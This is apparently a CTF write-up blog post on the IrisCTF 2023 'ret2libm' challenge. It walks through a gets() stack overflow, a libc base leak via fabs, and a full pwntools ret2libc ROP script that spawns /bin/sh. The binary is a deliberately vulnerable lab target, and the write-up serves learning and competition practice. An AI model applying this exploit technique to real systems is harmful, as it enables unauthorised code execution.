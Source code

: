 +++ 
weight = 8
tags = ["ctf", "pwn", "writeup"] 
categories = ["CTF Writeups", "pwn"] 
publishDate = 1673193600 # 01/09/2023
description = "A relatively easy `pwn` challenge similar to classic ret2libc" 
title_img = """{{< image src="https://irissec.xyz/assets/img/logo_ascii.png" alt="" style="border-radius: 5px; height: auto; width: 10vh; display: inline; vertical-align: middle; " >}}"""
title = """ret2libm - IrisCTF 2023"""
cover = "libcbasecalc.png"
+++

# Overview

`ret2libm` was the 2nd most solved `pwn` challenge of [IrisCTF 2023](https://ctftime.org/event/1774), written by `sera`.

Description:
> I need to make a pwn? Let's go with that standard warmup rop thing... what was it... ret2libm?

We are provided with a zip file containing a binary, source code, `libc`, `libm`, and Makefile.

{{< code language="c" title="chal.c" id="1" expand="Show" collapse="Hide" isCollapsed="false" >}}
#include <math.h>
#include <stdio.h>

// gcc -fno-stack-protector -lm

int main(int argc, char* argv) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    char yours[8];

    printf("Check out my pecs: %p\n", fabs);
    printf("How about yours? ");
    gets(yours);
    printf("Let's see how they stack up.");

    return 0;
}
{{< /code >}}

{{< code language="makefile" title="Makefile" id="2" expand="Show" collapse="Hide" isCollapsed="true" >}}
chal: chal.c
    gcc -fno-stack-protector chal.c -o chal -lm
{{< /code >}}

The `gets()` function is clearly a classic buffer overflow vulnerability as it reads in any amount of bytes regardless of what the buffer `yours[8]` can actually hold. Therefore we can overwrite the return pointer `rip` and control what code it executes next.

There also isn't a canary we need to bypass.

``` 
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Using `pwndbg` we find the offset to be `16` bytes until we overwrite the return pointer.

# Exploitation

The next step is to do a classic `ret2libc`. However, there is ASLR that we need to bypass, as the `libc` library is loaded into a different address each time. The program just so happens to give us a leak from the `libm` library which *should* allow us to calculate the `libc` base address.

```c
printf("Check out my pecs: %p\n", fabs);
```

I assumed the `fabs` address would be a **constant offset** from the `libc` base address, so after finding that offset we should be able to calculate it.

{{< image src="./img/procmap.png" alt="" position="center" style="border-radius: 5px;" >}}

`libc` base shown here is `0x7f0f11c0b000`, the `fabs` leak was `0x7f0f11e2e4d0`, so calculating `fabs - libc = 0x7f0f11e2e4d0 - 0x7f0f11c0b000 = 0x2234d0` we get an offset of `0x2234d0`. So to calculate the libc base address from the fabs leak, we simply do `libc.address = fabs - 0x2234d0`

**WAIT!** - The `libm` and `libc` binary used by our linux system is probably different to the ones given! We need to patch the binary to use the provided libraries `libc-2.27.so` and `libm-2.27.so`.

`pwninit` is a popular tool for this, however, it only links the `libc` file - we need to link both `libc` and `libm`. Therefore we will use `patchelf` (which pwninit uses anyways).

Making a copy of the binary `chal_patched` and running `patchelf --add-needed libm-2.27.so chal_patched` and `patchelf --add-needed libc-2.27.so chal_patched` we have linked the binary to use those libraries instead of our system ones!If we didn't do so, our payload may work on our system, but not the remote as they are using different libraries with different addresses and sizes.

Now that we've linked the correct libraries, we need to recalculate the offset `0x7ffff7a66cf0 - 0x7ffff7644000 = 0x422cf0`.

Okay lets setup a pwntools script to automate this!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug (gdb -p <PID>)

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")
```

We can reaffirm that the address is correct by using `gdb -p <PID>` to attach to the process, and check if the calculated address is correct.

{{< figure src="./img/libcbasecalc.png" alt="" position="center" style="border-radius: 8px;" caption="<i>and it indeed is...</i>" captionPosition="left" captionStyle="" >}}

Now we have the `libc` address we can do a standard `ret2libc`. I will not go in-depth on this as it's covered a lot, check out [this amazing resource](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc) if you want to fully grasp it.

Using `ROPgadget` to find gadgets in `libc` (I chose `libc` instead of the binary as we already had its base address, didn't want to do another calculation), we find the required `pop rdi; ret` gadget as per [64 bit calling conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions#64-bit) to pass the `/bin/sh` string into `system()`, and another `ret` gadget for stack alignment.

Now we simply return to libc!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")

pop_rdi = libc.address + 0x000000000002164f
ret = libc.address + 0x00000000000008aa

system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh'))

payload = flat(
    b"A" * offset,
    ret, # stack alignment
    pop_rdi,
    binsh,
    system,
    0x0
)

p.sendline(payload)
p.interactive()
```

Running this we indeed get a shell!

{{< image src="./img/yayshell.png" alt="" position="center" style="border-radius: 5px;" >}}

Now all we have to do is to connect to remote and do the same ... right? Apparently not. Running the script gives us an EOF, meaning the program crashed or ended.

{{< image src="./img/verysad.png" alt="" position="center" style="border-radius: 5px;" >}}

This is the last thing we want to see - our exploit working locally, but not on remote! When this happened I first thought I didn't link the libraries correctly, but after relinking and additional testing that didn't seem to be the case. Having no other idea what it could be, I opened a ticket on the [discord server](https://discord.com/invite/TJMssbJV).

After explaining my issue, the organiser `sera` released a Dockerfile that allowed the remote enviroment to be built on your own computer! This meant we could now debug on an enviroment identical to the remote instance, and potentially find out the issue.

After doing so, my payload unfortunetly still worked without modifications, which was really weird as the enviroment was supposedly identical to the remote instance. `sera` mentioned it could be that the `libc` was in fact *not* a constant offset of `fabs` function from `libm` on the remote instance, which meant the `libc.address` would be wrong.

{{< image src="./img/whynoworklol.png" alt="" position="center" style="border-radius: 5px;" >}}

`sera` verified that the scripts work on their docker as well, so decided to award me the flag anyways regardless of it not working on remote.

{{< image src="./img/wowflag.png" alt="" position="center" style="border-radius: 5px;" >}}

First time I've just been handed the flag by organisers, even in other competitions (*cough* Pecan CTF) where challenges were literally broken and we had the solution, organisers wouldn't award points, so huge thanks to `sera` for the help and flag!

The intended solution was to use a one-gadget in the libc and a libc address already in `rax` to (i assume) calculate the offset.

# Conclusion

Overall this was a pretty fun challenge despite the hours of trying to figure out why it wouldn't work on remote, I only started learning `pwn` recently and was glad theres a CTF with `pwn` challenges I could solve.

In the end we ([PissedEmu](https://ctftime.org/team/160273)) placed `11th` on the [leaderboard](https://ctftime.org/event/1774) which I'm happy about!

Additional thanks to the organisers for hosting IrisCTF 2023, I'll be looking forward to next year's event!

Also, please DM me on Discord at `TheSavageTeddy#7458` if there are issues or things I missed in this blog post as it is my first.